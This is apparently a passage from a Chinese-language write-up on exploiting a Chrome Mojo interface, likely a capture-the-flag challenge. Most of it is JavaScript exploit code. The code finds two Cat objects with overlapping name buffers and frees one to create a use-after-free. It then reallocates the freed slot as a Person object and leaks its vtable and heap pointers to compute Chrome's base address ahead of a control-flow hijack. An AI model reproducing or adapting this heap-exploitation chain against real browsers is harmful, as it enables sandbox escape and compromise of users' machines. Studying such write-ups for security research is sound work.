 ```js
        // return 0x40 will change one cat's name to the Neighboring cat's name, which will form a overlap chunk.
        return {'weight': 0x40};
    };
```

接着就遍历`Cat`对象，去寻找被修改了`name`字段的`Cat`，并找出`name`字段相同的另一个`Cat`，经过下面的代码后，`evil`与`victim`的`name`字段相同。

```js
    // find the evil cat and victim cat
    let evilIdx = -1;
    let evil = undefined;
    for(let i =0; i<catCount; i++){
        let name = (await catPtrArr[i].getName()).name;
        if (name != id2Str(i, stringSize)){
            evilIdx = i;
            evil = catPtrArr[i];
            break;
        }
    }

    if(evilIdx == -1) {
        console.log("[-] can't find overlap cat name")
        return;
    }
    let name = (await evil.getName()).name;
    let victimIdx = str2Id(name);
    let victim = catPtrArr[victimIdx];
    if (victimIdx<0 || victimIdx>=catCount) {
        console.log("[-] can't find overlap cat name")
        return;
    }
    console.log("[+] evil cat idx: "+evilIdx);
    console.log("[+] victim cat idx: "+victimIdx);
    console.log("[+] evil cat name: "+name);

```

然后我们释放掉`victim`的`name`字段，此时`evil`的`name`指针就成了悬空指针，再紧接着申请另一个对象（`Person`），这样就形成了`uaf`漏洞，可以通过`evil`的`name`指针泄露虚表指针以及堆指针，从而后续劫持控制流。

```js
		// change the victim cat's name, now the evil cat name pointer will be freed
    victim.setName('a'.repeat(stringSize*200));

    let ropBufferSize = 0x100;

    // create a personPtr, now the evil cat's name pointer point to the personPtr structure
    let triggerPersonPtr = (await mojoPtr.createPerson()).person;
    await triggerPersonPtr.setName('A'.repeat(ropBufferSize));

    // leak the data
    let leakData = (await evil.getName()).name;
    let personVtableAddr = getUint64(leakData, 0);
    let leakHeapAddr = getUint64(leakData, 0x18);

    let baseAddr = personVtableAddr - 0x8fc19c0n;
    let highAddr = baseAddr&BigInt(0xf00000000000)
    let lowAddr = baseAddr&BigInt(0x000000000fff)
    if((highAddr != BigInt(0x500000000000)) && lowAddr !=0 ) {
        console.log("[-] leak addr failed")
        return;
    }
    console.log("[+] chrome base addr: "+hex(baseAddr));
    console.log("[+] leak heap addr: "+hex(leakHeapAddr));
```